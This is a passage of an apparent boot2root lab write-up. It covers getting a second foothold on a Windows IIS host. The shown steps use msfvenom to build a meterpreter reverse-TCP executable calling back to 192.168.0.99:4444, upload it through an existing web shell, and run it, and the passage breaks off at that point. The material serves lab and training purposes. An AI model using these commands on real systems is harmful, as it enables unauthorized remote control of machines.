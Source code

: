      2580  488   msdtc.exe                                                     
     2708  488   VSSVC.exe                                                     
     2856  1836  w3wp.exe              x86   0        IIS APPPOOL\MyFirstSite  c:\windows\system32\inetsrv\w3wp.exe



### Create a binary native reverse shell with MSFVEnom

Prior experience shows that some meterpreter shells (particularly the web based ones like `php` and `aspx`) are less functional than their native OS binary equivalents, accordingly, we deployed a second access method using a meterpreter in a exe package.

    root@kali:~/boot2root# msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST=192.168.0.99 LPORT=4444 -o rshell.exe
    No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    No Arch selected, selecting Arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 333 bytes
    Final size of exe file: 73802 bytes
    Saved as: rshell.exe


### Upload it through the ASP.NET shell

    meterpreter > lcd /root/boot2root
    meterpreter > upload rshell.exe
    [*] uploading  : rshell.exe -> rshell.exe
    [*] uploaded   : rshell.exe -> rshell.exe


### Run it on the host

    meterpreter > shell
    Process 4052 created.
    Channel 2 created.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    c:\Test>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is E0CE-337D
    
     Directory of c:\Test
    
    07/26/2018  08:19 PM    <DIR>          .
    07/26/2018  08:19 PM    <DIR>          ..
    11/13/2017  10:38 PM    <DIR>          New folder
    07/26/2018  08:19 PM               333 rshell.exe
                   1 File(s)            333 bytes
                   3 Dir(s)  122,943,504,384 bytes free
    
    c:\Test>rshell.exe
    rshell.exe
    